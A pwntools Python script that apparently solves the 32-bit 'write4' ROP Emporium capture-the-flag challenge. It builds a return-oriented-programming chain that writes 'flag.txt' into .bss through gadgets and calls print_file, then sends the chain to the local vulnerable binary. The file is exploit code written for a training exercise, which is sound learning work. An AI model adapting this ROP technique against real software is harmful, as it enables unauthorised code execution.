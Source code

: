BINARY = './write432'
context.os  = 'linux'
context.arch = 'i386'
context.binary = ELF(BINARY)


PAYLOAD  = 1

print_file = 0x080483d0
bss_addr = 0x0804a020
pop2ret = 0x080485aa # (pop edi ; pop ebp ; ret)
usefulGadget = 0x08048543


def output2file(data):
    with open('./input', 'wb') as f:
        f.write(data)

def payload_1():
    rop = b"A"*44
    rop += p32(pop2ret)
    rop += p32(bss_addr)
    rop += b"flag"
    rop += p32(usefulGadget)
    rop += p32(pop2ret)
    rop += p32(bss_addr+4)
    rop += b".txt"
    rop += p32(usefulGadget)
    rop += p32(print_file)
    rop += b"BBBB"
    rop += p32(bss_addr)

    return rop 

p = process(BINARY)
rop = payload_1()
log.success(f"ROP chain : {rop}")
p.sendline(rop)
flag = p.recvall()
print(flag)
output2file(rop)
```


